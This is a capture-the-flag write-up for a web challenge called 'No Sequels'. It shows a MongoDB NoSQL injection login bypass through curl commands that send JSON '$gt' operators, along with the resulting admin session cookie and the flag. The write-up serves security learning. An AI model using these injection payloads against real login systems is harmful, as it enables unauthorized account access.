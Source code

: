 # No Sequels
Web

## Challenge 
The prequels sucked, and the sequels aren't much better, but at least we always have the original trilogy.

Author: SirIan

## Hint
MongoDB is a safer alternative to SQL, right?

## Solution

Reference:

- https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html
- https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/
- http://www.weirdnano.com/2014/01/24/cURL-data-post-request-command-line/

Failed post data

	'username={"&ne": ""}&password={"&ne": ""}'
	'username[$gt]=&password[$gt]='

Successful when using json as the content type.

	$ curl https://nosequels.2019.chall.actf.co/login 
		--cookie 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU1OTQ4NDY4fQ.mqy5QD30zEW_1q8tPiQ5nwT0_QDK-Jt7Pjx_U60ufN4;' 
		--data '{"username": "a", "password":"b"}' 
		-H "Content-Type: application/json"
	Wrong username or password


	$ curl https://nosequels.2019.chall.actf.co/login 
		--cookie 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU1OTQ4NDY4fQ.mqy5QD30zEW_1q8tPiQ5nwT0_QDK-Jt7Pjx_U60ufN4;' 
		--data '{"username": {"$gt": ""}, "password": {"$gt": ""}}' 
		-H "Content-Type: application/json" -v

	< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlLCJpYXQiOjE1NTU5NDk1NTB9.WfYVmx7JWXsqWvU97PPRGjklNZ8ShOWoViiHF3V26WQ; Path=/
	Found. Redirecting to /site


Use the new cookie and resubmit the query. I added -L to follow the redirect.

	$ curl https://nosequels.2019.chall.actf.co/login --cookie 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlLCJpYXQiOjE1NTU5NDk2OTJ9.M2F2Zq4esATeJhBhQby2b3XJRJNLZxpUacVIMmJW9O0;' --data '{"username": {"$gt": ""}, "password": {"$gt": ""}}' -H "Content-Type: application/json" -v -L

	<h2>Here's your first flag: actf{no_sql_doesn't_mean_no_vuln}<br>Access granted, however suspicious activity detected. Please enter password for user<b> 'admin' </b>again, but there will be no database query.</h2>


	
## Flag

	actf{no_sql_doesn't_mean_no_vuln}
